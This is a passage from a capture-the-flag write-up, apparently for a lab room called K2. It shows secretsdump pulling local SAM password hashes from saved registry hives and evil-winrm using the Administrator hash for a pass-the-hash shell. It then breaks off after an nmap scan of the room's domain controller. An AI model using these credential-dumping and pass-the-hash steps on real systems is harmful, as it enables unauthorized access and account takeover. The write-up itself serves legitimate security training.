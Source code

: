 After downloading, we can use `secretsdump` to extract the hashes.

```console
$ secretsdump.py -sam sam.reg -system system.reg local
...
[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9545[REDACTED]b32f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```


### Shell as Administrator

Now that we have the hash for the local **Administrator**, we can use it with `evil-winrm` to get a shell and read the root flag at `C:\Users\Administrator\Desktop\root.txt`.

```console
$ evil-winrm -i k2server.k2.thm -u 'Administrator' -H 9545[REDACTED]b32f

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
k2\administrator
```

## The Summit

### Initial Enumeration

Moving on to **The Summit**, we start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.70.89
...
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-28 04:47:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=K2RootDC.k2.thm
| Not valid before: 2024-09-27T04:18:50
|_Not valid after:  2025-03-29T04:18:50
| rdp-ntlm-info:
|   Target_Name: K2
|   NetBIOS_Domain_Name: K2
|   NetBIOS_Computer_Name: K2ROOTDC
|   DNS_Domain_Name: k2.thm
|   DNS_Computer_Name: K2RootDC.k2.thm
|   DNS_Tree_Name: k2.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2024-09-28T04:48:19+00:00
|_ssl-date: 2024-09-28T04:48:58+00:00; +2s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```